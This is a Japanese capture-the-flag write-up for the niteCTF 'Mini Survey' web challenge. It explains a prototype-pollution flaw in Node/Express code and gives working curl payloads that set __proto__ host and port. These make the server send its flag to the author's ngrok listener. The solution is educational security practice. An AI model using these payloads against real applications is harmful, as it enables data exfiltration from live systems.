



# Mini Survey:web:XXXXpts
Please answer this survey for the better of all  
\- Minnesota Dept of Roads & Railways  
[http://mini-survey.web.nitectf.live/](http://mini-survey.web.nitectf.live/)  

[miniSurvery_updated_2.zip](miniSurvery_updated_2.zip)  

# Solution
URLとソースが与えられる。  
URLにアクセスすると、道路状況のアンケートを送信できる。  
  
  
  
ソースを見るとindex.jsの主要部分は以下のようであった。  
```js
const express = require("express");
const updateDBs = require("./serverComs");
~~~
app.set("view engine", "ejs");
app.use(express.urlencoded({ extended: true }));

//add initial data as headers to convert to csv
let surveyOneInitialData = { Name: { City: "Rating" } };
let surveyTwoInitialData = { Name: { City: { Rating: "Reasons" } } };

~~~

app.post("/roadqualsurvey", (req, res) => {
    console.log(23);
    const fieldInput1 = req.body.name;
    const fieldInput2 = req.body.city;
    const fieldInput3 = req.body.roadRate;
    const fieldInput4 = req.body.reasons;

    let reasons = fieldInput4.split(",");

    surveyTwoInitialData[fieldInput1] = {
        [fieldInput2]: { [fieldInput3]: reasons },
    };

    console.log(surveyTwoInitialData);

    test = Object.create(surveyTwoInitialData);
    console.log(test.url);

    surveyTwoInitialData = updateDBs(surveyTwoInitialData, {
        Name: { City: { Rating: "Reasons" } },
    });

    res.redirect("/thankyou");
});

app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };

    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
~~~
```
serverComs.jsは以下のようであった。  
```js
const net = require("net");

backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {
        backupServerHost = data.host;
    }

    if (data.port != undefined) {
        backupServerPort = data.port;
    }

    const options = {
        host: backupServerHost || "localhost",
        port: backupServerPort || "8888",
    };

    if (
        typeof options.host === "string" &&
        options.host.endsWith(".ngrok.io")
    ) {
        const socket = net.connect(options, () => {
            socket.write(postData);
            socket.end();
        });

        socket.on("error", (err) => {
            console.error("Error", err.message);
        });
    }
}

function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FAKE_FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}

module.exports = updateDBs;
```
`updateDBs`に渡ったデータに`host`、`port`が存在すれば、そこにフラグを送っている。  
しなければ`localhost`の`8888`になるようだ。  
フロントからそれらを設定するものはないように見える。  
ここで`surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };`の怪しさに気づく。  
`__proto__`経由で、任意の項目を汚染できる。  
`host`と`port`を自身の受信サーバに差し替えればよい(`options.host.endsWith(".ngrok.io")`に注意)。  
受信サーバ側を以下のように準備する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
```
```bash
$ ngrok tcp 8888
~~~
Session Status                online
Account                       t.satoki111@gmail.com (Plan: Free)
Update                        update available (version 3.5.0, Ctrl-U to update)
Version                       3.3.5
Region                        United States (California) (us-cal-1)
Latency                       -
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://6.tcp.us-cal-1.ngrok.io:12576 -> localhost:8888
~~~
```
リクエストを以下のように送る。  
```bash
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=host&pollutionRate=6.tcp.us-cal-1.ngrok.io"
Found. Redirecting to /thankyou
$ curl -X POST 'http://mini-survey.web.nitectf.live/pollutionsurvey' --data "name=__proto__&city=port&pollutionRate=12576"
Found. Redirecting to /thankyou
```
先ほどの受信サーバ側に以下のようなリクエストが到達する。  
```bash
$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 127.0.0.1 43088
{"flag":"nite{pr0t0_p0llut3d_116a4601b79d6b8f}","log":"new entry added"}
```
flagが得られた。  

## nite{pr0t0_p0llut3d_116a4601b79d6b8f}